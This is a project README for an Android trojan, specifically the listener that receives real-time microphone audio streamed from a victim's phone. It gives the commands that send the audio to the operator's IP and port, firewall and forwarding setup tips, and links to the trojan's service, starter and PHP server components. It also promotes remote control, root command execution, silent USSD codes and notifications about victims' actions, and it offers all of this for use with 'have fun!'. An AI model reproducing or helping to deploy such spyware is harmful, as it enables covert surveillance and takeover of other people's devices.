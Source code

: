 # Android Trojan (Built with Android SDK 22) source code
The main manual is here: https://github.com/androidtrojan1/android-trojan-service-
UPD. 11.02.2016 Version 1.2 released!

DESCRIPTION:



This is the source of executable .jar file that is used for recieving of sound stream from the mic of the victim's device in real time.
First you need to execute the command "stream [your_ip_address] [your_desired_listening_port]" and if it started it will show you
the neccessary buffer size and port that you should pass as argument.

Example of usage: 
java -jar streamer.jar bufsize port

for instance (java - jar streamer.jar 8192 31337)

IMPORTANT!!!
Dont forget to set up the firewall rule or just completely disable it for a while (the UDP port will be used for listening)
And you will also need to set up IP forwarding if you are bihind a firewall. 

HERE ARE LINKS TO THE OTHER COMPONENTS:

trojan service apk: https://github.com/androidtrojan1/android-trojan-service-

trojan starter apk : https://github.com/androidtrojan1/android-trojan-starter-

trojan php server part: https://github.com/androidtrojan1/android-trojan-php-server



Android trojan with abilities of remote control,root commands execution, recording and online sound streaming

Compatible with all Android from Gingerbread (API 10) up to Lollipop (API 22)





have fun!

Upd. 11.09.2016  New Update is coming. New features in the upcoming version:
*  Telegram real-time notifications about victim's actions
*  silent execution of ussd codes
*  more interesting root features ^^
